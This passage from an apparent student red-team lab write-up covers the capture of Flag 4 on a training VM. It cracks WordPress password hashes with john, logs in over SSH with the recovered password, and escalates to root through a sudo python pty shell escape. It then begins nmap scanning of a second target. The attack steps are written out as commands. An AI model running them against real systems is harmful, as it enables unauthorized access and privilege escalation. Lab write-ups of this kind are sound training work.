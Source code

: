 ![Password Hashes from wp_users](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/hashes_for_users_michael_and_steven.PNG)  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
![Flag4](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/flag4_1.PNG)  
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
![John Hashes Password](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/john_wp_hashes_txt.PNG)  
      - **Command:** `john --show wp_hashes.txt`  
![Steven's Password](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/steven_password_cracked.PNG)  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:* `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
![Sudo Steven's Account](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/steven_sudo_previlages.PNG)  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
![Flag 4](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/flag4-1.png)  

### Target 2

### Exposed Services

Name of VM: **`Target 2`**  
Operating System: **`Linux`**  
Purpose: **`Offensive Red Team`**  
IP Address: **`192.168.1.115`**  

```bash
root@Kali:~# nmap -sP 192.168.1.0/24
```
![NMAP -sP](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_nmap_-sP_192_168_1_0-24.PNG)  

Nmap scan results for **`Target 2`** reveal the below services and OS details: 

```bash  
root@Kali:~# nmap -sV 192.168.1.115  
````
![NMAP -sV](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_nmap_-sV_192_168_1_115.PNG)  

